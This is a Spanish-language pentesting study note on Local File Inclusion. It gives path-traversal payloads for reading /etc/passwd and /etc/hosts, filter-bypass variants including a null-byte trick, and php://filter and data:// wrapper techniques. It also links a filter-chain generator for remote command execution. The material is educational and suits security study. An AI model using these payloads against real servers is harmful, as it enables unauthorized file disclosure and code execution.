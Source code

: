 # Local File Incrusion (LFI)

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

Ejemplo de LFI:

```
http://IP?filename=/etc/host //no esta sanetizado
?filename=../../../../../../etc/hosts // sanetizado con filtro de busqueda en la ruta /var/www/html
?filename?....//....//....//....//....//etc/hosts // en caso de que ../ sea remplazada por un caracter vacio
?filename?../../../../../etc//./hosts // en caso de que este sanetizada la ruta ej(/etc/hosts, /etc/passwd) se ponen dos barras // o /./ y sigue funcionando
?filename?../../../../../etc/passwd%00 para persiones de php antiguas
```

### Uso de filtro/wrappers

#### php://filter

```
// Convierte el contenido en base64
php://filter/convert.base64-encode/resource=secret.php
// Leer contenido en Base64
echo -n "PD9waHAKCS8vTm8gZGViZXJpYXMgcG9kZXIgdmVybWUgZGFkbyBxdWUgZXN0ZSBjb2RpZ28gZGViZXJpYSBkZSBzZXIgaW50ZXJwcmV0YWRvCgllY2hvICJIb2xhIHF1ZSB0YWwiOwo/Pgo=" | base64 -d
// Convierte el contenido en cifrado cesar//rotacion de 13 posiciones en las letras del abecedario
php://filter/read=string.rot13/resource=secret.php
// Leer el contenido en cifrado cesar
cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```

#### php:input

<div align="left">

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

</div>

#### data://&#x20;

Encodeamos en base64

<div align="left">

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

</div>

agregamos el comando seguido de data://text/plain,base64,

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

* **PHP Filter Chain Generator**: [https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)
